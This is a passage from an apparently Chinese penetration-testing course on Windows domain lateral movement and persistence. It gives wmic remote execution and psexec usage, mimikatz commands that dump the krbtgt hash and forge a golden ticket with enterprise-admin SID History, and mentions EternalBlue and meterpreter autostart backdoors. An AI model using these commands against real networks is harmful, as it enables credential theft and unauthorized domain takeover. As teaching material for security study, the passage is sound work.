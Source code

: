 <p data-nodeid="10264">metasploit 就自带有 psexec 模块，用它可直接连接登录主机。<br>
<img src="https://s0.lgstatic.com/i/image6/M00/02/D0/CioPOWAeEiCAFXs4AAJqKBM7rnw147.png" alt="Drawing 26.png" data-nodeid="10579"></p>
<div data-nodeid="10265"><p style="text-align:center">图 27  利用 Metasploit psexec 登录主机</p></div>
<ul data-nodeid="10266">
<li data-nodeid="10267">
<p data-nodeid="10268"><strong data-nodeid="10583">WMI</strong></p>
</li>
</ul>
<p data-nodeid="10269">WMI（Windows Management Instrumentation，Windows 管理规范）是由一系列工具组成的，支持本地和远程管理计算机系统，使用命令格式如下：</p>
<pre class="lang-java" data-nodeid="10270"><code data-language="java">wmic /node:{目标IP} /user:{用户名} /password:{密码} process call create <span class="hljs-string">"{命令}"</span>
</code></pre>
<p data-nodeid="10271"><img src="https://s0.lgstatic.com/i/image6/M00/02/D0/CioPOWAeEimAG3tlAAAfUzrGXD0403.png" alt="Drawing 27.png" data-nodeid="10587"></p>
<div data-nodeid="10272"><p style="text-align:center">图 28  使用 WMI 远程执行命令</p></div>
<h4 data-nodeid="10273">3.远程漏洞攻击</h4>
<p data-nodeid="10274">如果能找到一个其他主机存在的远程漏洞，借助已攻破的主机发起利用，那么也可以达到横向移动的目的。还记得“永恒之蓝”漏洞吗？一款叫作 WannaCry 的勒索病毒袭击全球，其利用的正是“永恒之蓝”（Windows SMB 远程命令执行漏洞），Metasploit 中已集成该漏洞的利用。</p>
<p data-nodeid="10275">你可以多关注下最新的一些远程漏洞，有时直接利用远程漏洞获得域内其他主机的控制权也是一种快捷的方式。</p>
<h4 data-nodeid="10276">4.跨域攻击</h4>
<p data-nodeid="10277">对于父子域这种双向信息的情况，我们可以利用 SID History 进行跨域攻击，使用命令如下。</p>
<ul data-nodeid="10278">
<li data-nodeid="10279">
<p data-nodeid="10280">使用 mimikatz 获取子域的 krbtgt Hash，krbtgt 是域内默认创建的账号，域内每个账号的票据都是由它生成的，只要拿到 krbtgt 的密码 Hash，就可以随意伪造票据，进而使用票据登录域控制器。</p>
</li>
</ul>
<pre class="lang-java" data-nodeid="10281"><code data-language="java">lsadump::lsa /patch
</code></pre>
<ul data-nodeid="10282">
<li data-nodeid="10283">
<p data-nodeid="10284">使用 powerview 获取父子域的 sid：</p>
</li>
</ul>
<pre class="lang-java" data-nodeid="10285"><code data-language="java">Get-DomainComputer -Domain {父域名}
Get-DomainComputer -Domain {子域名}
</code></pre>
<ul data-nodeid="10286">
<li data-nodeid="10287">
<p data-nodeid="10288">利用 mimikatzt 向内存注入票据，添加 SID＝519 企业管理员。</p>
</li>
</ul>
<pre class="lang-java" data-nodeid="10289"><code data-language="java">kerberos::golden /user:Administrator /krbtgt:{第一步获取的hash} /domain:{域名}&nbsp;/sid:{子域sid} /sids:{替换父域sid最后一个值为<span class="hljs-number">519</span>} /ptt
</code></pre>
<ul data-nodeid="10290">
<li data-nodeid="10291">
<p data-nodeid="10292">访问父域的共享目录</p>
</li>
</ul>
<pre class="lang-java" data-nodeid="10293"><code data-language="java">dir \\{父域名}\c$
</code></pre>
<h3 data-nodeid="10294">权限维持</h3>
<p data-nodeid="10295">有时服务器被重启，或者修改密码之后，我们就失去了对目标的控制权，因此我们得想办法去维持权限的持久性，保证我们在需要的时候都能够远程控制。</p>
<h4 data-nodeid="10296">1.WebShell</h4>
<p data-nodeid="10297">如果是 Webshell，那服务器重启后也没影响。关于 Webshell，前面课程已介绍过，此处不再赘述。</p>
<h4 data-nodeid="10298">2.系统后门</h4>
<p data-nodeid="10299">前面我们使用 metasploit 利用漏洞去获取 meterpreter 后门也是一种方式，你可以把后门添加到自启动项，保证重启后仍有效，这种比较适合开启监听后门，因为有时候我们没有一直在本地开启监听去等待对方连接。</p>